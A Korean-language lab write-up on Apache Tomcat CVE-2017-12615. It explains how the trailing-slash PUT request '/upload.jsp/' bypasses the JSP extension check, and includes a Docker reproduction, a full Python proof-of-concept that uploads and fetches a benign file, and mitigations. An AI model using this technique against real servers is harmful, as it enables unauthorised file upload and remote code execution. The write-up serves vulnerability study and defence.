



# **Tomcat PUT 메서드를 통한 임의 파일 쓰기 취약점 (CVE-2017-12615)**

## **요약**

Apache Tomcat은 Java 웹 어플리케이션(Servlet, JSP)을 실행하는 웹 어플리케이션 서버(WAS)입니다. 쉽게 말해 Java로 만든 웹 서비스를 실행해 주는 프로그램이다.

해당 취약점은 DefaultServlet의 readonly 옵션을 false로 설정해 HTTP PUT을 이용한 파일 쓰기가 허용된 상태에서, 취약한 Apache Tomcat 버전에서 확장자 검사 우회를 이용해 임의의 JSP 파일을 업로드할 수 있는 취약점이다.

## **취약 조건 및 분석**

이 취약점은 Apache Tomcat version `7.0.0 ~ 7.0.79`에서 영향을 받는다.

Tomcat의 DefaultServlet은 기본적으로 readonly 옵션이 true로 설정되어 있다. 그러나 Tomcat의 DefaultServlet의 `readonly` 옵션을 `false`로 변경하게 되면 HTTP PUT 메서드를 이용한 파일 쓰기가 가능해진다.

취약한 버전에서의 Tomcat은 기본적으로 `.jsp` 파일에 대한 직접적인 PUT 업로드를 제한하지만 요청 경로 끝에 `/`을 붙인 `PUT /upload.jsp/` 요청은 디렉터리 요청처럼 처리하여 JSP 확장자 검사를 우회한다.

그 결과 웹 루트에 `.jsp` 파일이 생성되며, 이후 해당 JSP에 접근하면 Tomcat이 이를 실행한다. 따라서 공격자는 임의의 JSP를 업로드하여 서버에서 자신의 코드를 실행할 수 있으며 이는 원격 코드 실행 `RCE`로 이어질 수 있다.

따라서, JSP 확장자 검사 우회를 통해 `PUT /upload.jsp/` 요청만으로 `webapps/ROOT/upload.jsp` 파일이 생성된다. 이후 `GET /upload.jsp`를 요청하면 업로드한 파일이 실행된다.

## **환경 구성 및 재현 절차**

다음 명령어를 실행하여 Apache Tomcat 7.0.79 기반의 취약한 어플리케이션을 시작한다.

```
docker compose up -d --build
```

다음 명령어를 실행하여 `poc.py`를 수행한다.

```bash
python3 poc.py http://127.0.0.1:8080
```

`poc.py`는 아래와 같은 코드로 작성되어 있다.
```python
#!/usr/bin/env python3
import http.client
import sys
from urllib.parse import urlparse

def main():
    target = sys.argv[1] if len(sys.argv) > 1 else "http://127.0.0.1:8080"
    parsed = urlparse(target)
    host, port = parsed.hostname, parsed.port

    print(f"Target : {host}:{port}")

    conn = http.client.HTTPConnection(host, port, timeout=5)
    body = b"This file was uploaded successfully. (CVE-2017-12615)\n"

    headers = {
        "Accept": "*/*",
        "Accept-Language": "en",
        "User-Agent": "Python-http.client-PoC",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Content-Length": str(len(body))
    }

    conn.request(
        "PUT",
        "/upload.jsp/",
        body=body,
        headers=headers
    )

    response = conn.getresponse()

    response.read()
    conn.close()

    conn = http.client.HTTPConnection(host, port, timeout=5)

    conn.request("GET", "/upload.jsp")

    response = conn.getresponse()
    content = response.read().decode(errors="ignore")

    print(content)

    conn.close()

if __name__ == '__main__':
    main()
```

`poc.py`는 간단하게 다음과 같은 과정을 수행한다.
1. HTTP `PUT` 요청으로 `/upload.jsp/`을 전송한다.
2. 요청 본문에 지정한 문자열을 포함하여 웹 루트에 `upload.jsp` 파일을 생성한다.
3. HTTP `GET` 요청으로 `/upload.jsp`에 접근하여 업로드된 파일이 정상적으로 생성되었는지 확인한다.


## **실행 결과**

### 1. 출력결과를 통해 확인

PoC가 성공하면 다음과 같이 업로드한 문자열이 출력된다.



이는 HTTP `PUT` 요청을 이용하여 웹 루트에 임의의 파일이 생성되었음을 의미한다.

### 2. 브라우저를 통해 확인

브라우저에서도 아래 주소로 접근하여 동일한 내용을 확인할 수 있다.

- http://127.0.0.1:8080/upload.jsp



### 3. Tomcat의 웹 루트를 통해 직접 확인

생성된 파일이 실제로 Tomcat의 웹 루트에 저장되었는지도 확인할 수 있다.

```bash
docker compose exec tomcat cat /usr/local/tomcat/webapps/ROOT/upload.jsp
```



## **대응 방안**

- Apache Tomcat을 `7.0.x` 버전 사용시 `7.0.81` 이상으로 업데이트 해서 JSP 확장자 검사 우회를 막거나,
- DefaultServlet의 `readonly` 옵션을 `true`로 유지해 PUT 요청으로 실제 파일을 저장할 수 없도록 하면 된다.

## **참고 자료**
- https://tomcat.apache.org/security-7.html
- https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615